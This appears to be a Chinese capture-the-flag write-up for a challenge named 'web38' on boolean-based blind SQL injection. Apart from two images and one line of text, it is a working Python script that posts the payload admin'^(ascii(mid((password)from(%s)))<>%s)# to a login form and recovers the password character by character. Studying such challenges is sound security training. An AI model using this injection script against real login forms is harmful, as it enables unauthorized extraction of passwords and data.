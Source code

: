 # web38

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662156628-1113547220043.png)

题目描述
> **基于布尔的sql盲注**

emmmm
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662172826-2086648225798.png)

直接扔脚本吧
```python
  1 import requests
  2
  3 url = 'http://114.67.246.176:18706'
  4
  5
  6 def asscii_list():
  7     str_list = []
  8     for i in range(32, 127):
  9         str_list.append(chr(i))
 10     return str_list
 11
 12
 13 def flag():
 14     str_list = asscii_list()
 15     a = ''
 16     for i in range(1, 50):
 17         for j in str_list:
 18             payload = "admin'^(ascii(mid((password)from(%s)))<>%s)#" % (i,
 19                                                                         ord(j))
 20             data = {"username": payload, "password": 'admin'}
 21             res = requests.post(url, data=data)
 22             if 'password error' in res.text:
 23                 a += j
 24                 print("获取一个%s" % j)
 25                 break
 26         if len(a) >= 32:
 27            break
 28     print("flag:%s" % a)
 29
 30
 31 flag()
```
